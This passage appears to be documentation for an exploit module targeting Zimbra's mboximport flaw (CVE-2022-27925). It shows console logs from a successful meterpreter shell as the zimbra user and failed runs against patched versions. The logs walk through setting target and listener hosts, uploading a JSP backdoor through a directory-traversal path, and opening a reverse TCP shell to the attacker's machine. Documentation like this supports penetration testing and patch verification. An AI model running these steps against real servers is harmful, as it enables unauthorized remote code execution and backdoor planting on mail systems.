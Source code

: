 ```
meterpreter > getuid
Server username: zimbra

meterpreter > shell
Process 121849 created.
Channel 1 created.
/opt/zimbra/bin/zmcontrol -v
Release 8.8.12.GA.3794.UBUNTU18.64 UBUNTU18_64 NETWORK edition, Patch 8.8.12_P6.
```

### Zimbra Collaboration Suite Network Edition 8.8.15 Patch 33 on Ubuntu 18.04

Note: This version is not vulnerable, because the issue is patched

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.167
RHOSTS => 10.0.0.167
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/gauca.jsp
[-] Exploit aborted due to failure: unknown: Payload was not uploaded, the server probably isn't vulnerable
[!] This exploit may require manual cleanup of '../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp' on the target
[*] Exploit completed, but no session was created.
```

### Zimbra Collaboration Suite Open Source Edition Patch 8.8.12 Patch 6 on Ubuntu 18.04

Note: This version is not vulnerable, the open source edition doesn't have the correct path.

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.164
RHOSTS => 10.0.0.164
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/cualvccyq.jsp
[*] Sending POST request with ZIP file
[-] Exploit aborted due to failure: not-found: The target path was not found, target is probably not vulnerable
[*] Exploit completed, but no session was created.
```
